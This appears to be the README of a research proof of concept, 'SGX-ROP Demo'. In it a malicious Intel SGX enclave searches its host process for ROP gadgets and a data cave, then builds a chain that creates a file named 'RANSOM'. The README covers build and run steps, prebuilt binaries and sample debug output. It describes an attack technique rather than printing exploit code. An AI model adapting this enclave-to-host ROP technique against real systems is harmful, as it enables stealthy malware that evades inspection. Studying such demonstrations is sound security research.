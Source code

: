 # SGX-ROP Demo

A sample malicious enclave (including a benign loader) which displays a message and creates a file "RANSOM" in the current directory. 

## Requirements

The exploit was successfully tested on an i7-6700K and an i7-8650U on Ubuntu 18.04.1. 

### Hardware
* Intel SGX 
* CPU supporting Intel TSX

### Software
* Intel SGX SDK
* gcc (tested with 7.3)
* make

## Build

To build the enclave and loader, simply run

    make
 
## Run

Either build the enclave (see Build) or use the pre-built binaries in the folder `prebuilt`. 
Run

    ./app
 
to start the loader. 
After calling the trusted function inside the enclave, the enclave looks for an appropriate stack frame to inject the payload, searches for the required ROP gadgets as well as a data caves, and assembles the attack. 
The payload is triggered shortly before the loader program exits (not directly after returning from the enclave call). 
You should see a file "RANSOM" in the current folder altough the loader does not provide any file I/O to the enclave. 

The runtime depends on the randomization applied by ASLR, but should on average be around 20 seconds. 

### Sample Output

A sample output could look like this

```
[INFO ] Wrapper for addition
[INFO ] Adding numbers in enclave
[INFO ] Calling enclave function
[DEBUG] <Start @ 0x7ffffffff000>
[DEBUG] <Saved RSP: 7ffde1aaa5a0>
[DEBUG] <Saved RBP: 7ffde1aaaa80>
[DEBUG] <Searching for stack frame...>
[DEBUG] <Stack frame @ 328: 564bbcd783b1 / 7ffde1aaabe0 (4da3d8d48c689 / 7ffde1aaac00)>
[DEBUG] <Stack frame @ 360: 564bbcd7842f / 7ffde1aaace8 (e80000050a3d8d48 / 7ffde1aacfb4)>
[DEBUG] <RIP @ 0x7ffde1aaabe8>
[DEBUG] <RBP @ 0x7ffde1aaabe0>
[DEBUG] <Searching for gadgets...>
[DEBUG] <Found gadget [SYSCALL] @ 0x7fce6b70f085>
[DEBUG] <Found gadget [POP_RDI] @ 0x7fce6b70e287>
[DEBUG] <Found gadget [POP_RSI] @ 0x7fce6b70d167>
[DEBUG] <Found gadget [LEAVE] @ 0x7fce6b6f79ea>
[DEBUG] <Found gadget [POP_RAX] @ 0x7fce6b29daf4>
[DEBUG] <Found gadget [POP_RDX] @ 0x7fce6b20c6b6>
[DEBUG] <Found gadget [XCHG_RAX_RDI] @ 0x7fce6b1f58e5>
[DEBUG] <Searching for data cave...>
[DEBUG] <Cave @ 0x7fce6b6f1000>
[DEBUG] <Building ROP chain...>
[DEBUG] <Payload ready!>
[INFO ] Successfully returned
[INFO ] 3 + 5 = 8
[INFO ] Done adding
[INFO ] Wrapper end

    Hello from the malicious enclave! There should now be a file 'RANSOM'.

[INFO ] Enter a character before exit ...

[INFO ] Application exited normally
./app  6.97s user 0.04s system 85% cpu 8.226 total
```
